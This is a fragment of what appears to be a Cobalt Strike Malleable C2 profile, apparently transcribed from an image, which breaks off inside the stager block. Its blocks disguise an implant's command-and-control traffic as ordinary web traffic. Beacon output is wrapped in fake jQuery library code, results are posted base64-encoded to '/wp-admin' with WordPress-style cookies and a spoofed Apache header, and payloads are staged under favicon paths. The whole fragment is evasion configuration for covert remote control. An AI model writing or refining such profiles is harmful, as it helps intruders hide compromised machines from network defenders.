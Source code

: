 ```
			prepend "/*! jQuery v2.1.3 | (c) 2005, 2014 jQuery Foundation, Inc. | jquery.org/license */!function(a,b){\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=a.document?b(a,!0):function(a)";
			append "var nc=a.jQuery,oc=a.$;return n.noConflict=function(b){return a.$===n&&(a.$=oc),b&&a.jQuery===n&&(a.jQuery=nc),n},b||(a.jQuery=a.$=n),n});";
			print;

		}
	}
}

http-post {

	set uri "/wp-admin";

	client {

		header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
		header "Cookie" "wordpress_test_cookie=WP+Cookie+check";

		id {

			base64;
			prepend "PHPSESSID=";
			header "Cookie";
		
		}

		output {

			base64;
			print;

		}
	}

	server {

		header "Server" "Apache/2.4.39 (Unix)";
		header "Content-Type" "text/html; charset=UTF-8";

		output {

			base64;
			print;

		}
	}
}

http-stager {

	set uri_x86 "/favicon1.ico";
	set uri_x64 "/favicon2.ico";

	client {

		header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";

	}

	server {

```